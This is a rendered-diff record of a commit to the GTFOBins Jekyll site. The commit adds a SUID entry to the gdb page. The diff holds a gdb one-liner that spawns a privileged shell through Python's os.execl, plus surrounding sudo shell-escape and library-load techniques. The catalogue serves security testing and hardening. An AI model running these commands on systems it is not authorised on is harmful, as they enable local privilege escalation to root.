

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/gdb.md, in a window 1280 px wide and 900 px high, scrolled down 1849 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2628 px from its top, so only the background shows below that.

Commit message:
Add missing SUID in gdb

```diff
--- a/_gtfobins/gdb.md
+++ b/_gtfobins/gdb.md
@@ -47,6 +47,8 @@ functions:
   library-load:
     - description: This requires that GDB is compiled with Python support.
       code: gdb -nx -ex 'python from ctypes import cdll; cdll.LoadLibrary("lib.so")' -ex quit
+  suid:
+    - code: ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
   sudo:
     - code: sudo gdb -nx -ex '!sh' -ex quit
   capabilities:
```
